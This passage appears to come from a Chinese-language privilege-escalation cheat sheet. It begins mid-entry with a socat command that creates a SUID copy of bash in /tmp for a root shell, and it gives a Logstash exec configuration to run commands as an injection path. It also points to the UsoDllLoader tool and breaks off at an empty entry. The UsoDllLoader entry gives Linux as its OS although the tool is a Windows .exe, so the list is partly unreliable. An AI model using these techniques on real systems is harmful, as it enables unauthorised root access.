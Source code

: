 方法：

-   `echo “cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;” | socat – UNIX-CLIENT:/tmp/socket_test.s`

### **Logstash**

域：No

Local Admin: Yes

操作系统：Linux

类型：Injection

方法：

-   `/etc/logstash/logstash.yml`  
    input {  
    exec {  
      
    command => “whoami”  
      
    interval => 120  
      
    }  
      
    }  
    

### **UsoDllLoader**

域：No

Local Admin: Yes

操作系统：Linux

类型：Injection

方法：

-   `UsoDllLoader.exe`

  

批注：[https://github.com/itm4n/UsoDllLoader/releases/tag/1.0-20190824](https://link.zhihu.com/?target=https%3A//github.com/itm4n/UsoDllLoader/releases/tag/1.0-20190824)

### **Trend Chain Methods for Privilege Escalation**

### **Habanero Chilli**

域：No

Local Admin: Yes

操作系统：Windows

类型：Dll Side-loading

方法：

